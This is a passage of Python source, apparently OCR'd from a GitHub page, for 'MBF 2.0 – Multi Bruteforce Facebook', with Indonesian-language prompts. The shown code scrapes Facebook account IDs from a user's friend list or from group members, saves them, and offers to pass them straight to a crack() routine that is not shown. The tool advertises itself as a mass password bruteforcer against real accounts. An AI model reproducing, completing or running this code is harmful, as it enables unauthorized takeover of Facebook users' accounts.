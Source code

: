 			keluar()

	while 1:

		saring_id_teman(buka(next))

		cetak('\r!h[*] !p%s !hid terambil...'%len(id_bteman),1)

		sys.stdout.flush()

		try:

			next = br.find_link(url_regex='friends_center_main').url

		except:

			cetak('\n!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))

			break

	simpan()

	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])

	if i.upper() == 'Y':

		return crack(id_bteman)

	else:

		return menu()

def menu():

	cetak("\n           !h.-.-..\n          /+/++//\n         /+/++//\n  !k*   !k* !h/+/++//\n   \ /  |/__//\n !h{!mX!h}v{!mX!h}!0!b|!cMBF!b|==========.\n   !h(!m'!h)!0  !h/'|'\           !b\\\n       !h/  \  \          !b'\n       !h\_  \_ \_   !k___!mMBF !c2.0!k___\n\n !m* !bMULTI BRUTEFORCE FACEBOOK\n !m* !cPIRMANSX\n !m* !phttps://github.com/pirmansx\n !m* !phttps://facebook.com/groups/164201767529837\n !m* !phttps://pirmansx.waper.com\n!k.======================.\n|!h  AMBIL !mID!h DARI.....  !k|\n'======================'\n!k#!p1 !hDAFTAR TEMAN\n!k#!p2 !hANGGOTA GROUP\n!k#!p3 !mKELUAR...")

	i = inputM('[?] PILIH',[1,2,3])

	if i == 2:

		lanjutG()

		idgroup()

	elif i == 1:

		lanjutT()

		idteman()

	elif i == 3:

		keluar()

bacaData()

install_browser()

menu()

#

#

#
